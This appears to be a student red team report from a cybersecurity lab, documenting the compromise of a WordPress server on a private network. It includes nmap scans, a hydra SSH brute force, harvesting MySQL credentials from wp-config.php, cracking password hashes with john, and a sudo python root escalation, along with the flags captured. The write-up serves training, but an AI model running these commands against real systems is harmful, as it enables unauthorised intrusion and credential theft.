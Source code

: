 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```
bash
$ nmap -sV 192.168.1.0/24
  # Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-28 16:19 PDT
Nmap scan report for 192.168.1.1
Host is up (0.00069s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.00076s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00080s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.0017s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.0000080s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 28.83 seconds
```

This scan identifies the services below as potential points of entry:

- Target 1
  - 22/tcp ssh        
  - 80/tcp http

The following vulnerabilities were identified on each target:

- Target 1
  - Port 22 was opening allowing an attacker to SSH into the server.
  - Port 80 was open allowing unsecure connections to the web application.
  - The wordpress user 'michael' has a simple password.
  - The web server is vulnerable to brute force attacks.
  - The mySQL username and password is stored in plain text.
  - The user 'steven' requires no password to run commands in the python library. This allows for privilege escalation by generating a shell using python.

 - Scan Used
  - wpscan --url http://192.168.1.110/wordpress --enumerate

![](https://github.com/smalani06/cs-final-project/blob/main/images/wps1.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/wps2.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1
  - `flag1.txt`: _b9bbcb33e11b80be759c4e844862482d_
    - **Exploit Used**
      - Use hydra to brute force the password for user 'michael'.
        - ```hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh```
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Navigate to the website directory
        - ```cd /var/www/html/```
      - Use grep to find the flag in the html files.
        - ```grep -E flag*. *.html```

![](https://github.com/smalani06/cs-final-project/blob/main/images/hydra.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag1.png)

  - `flag2.txt`: _fc3fd58dcdad9ab23faca6e9a36e581c_
    - **Exploit Used**
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Use find command to search for flags.
        - ```find . -name flag*```

![](https://github.com/smalani06/cs-final-project/blob/main/images/findflag2.png)

  - `flag3.txt`: _afc01ab56b50591e7dccf93122770cd2_
    - **Exploit Used**
      - Look for the mysql username and password in the wp-config.php files.
        - ```find . -name *wp-config*```
        - ```nano ./wordpress/wp-config.php```
      - Log in to the mysql database by using the password found above.
        - ```mysql -u root -p```
      - Look at the tables and search for flags in the wp_posts table.
        - ```USE wordpress;```
        - ```SHOW TABLES;```
        - ```select * from wp_posts where post_content like '%flag%';```

![](https://github.com/smalani06/cs-final-project/blob/main/images/wp-config.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/login.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/tables.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag3.png)

  - `flag4.txt`: _715dea6c055b9fe3337544932f2941ce_
    - **Exploit Used**
      - After logging into the mySQL database, we checked the table wp_users where the user's password hashes were stored.
        - ```SELECT * FROM wp_users;```
      - Used john the ripper to crack user steven's password.
        - ```john wp_hashes.txt```
      - Connected to the server via SSH using steven's password.
      - List the allowed (and forbidden) commands for the invoking user steven.
        - ```sudo -l```
      - Since NOPASSWD is set for /usr/bin/python/, we can use python to escalate our privilege to root.
        - ```sudo python -c 'import pty;pty.spawn("/bin/bash")'```
      - Use find to locate flag4.
        - ```find . -name flag*```
        - cat /root/flag4.txt

![](https://github.com/smalani06/cs-final-project/blob/main/images/john.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/sshsteven.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/findflag4.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag4.png)
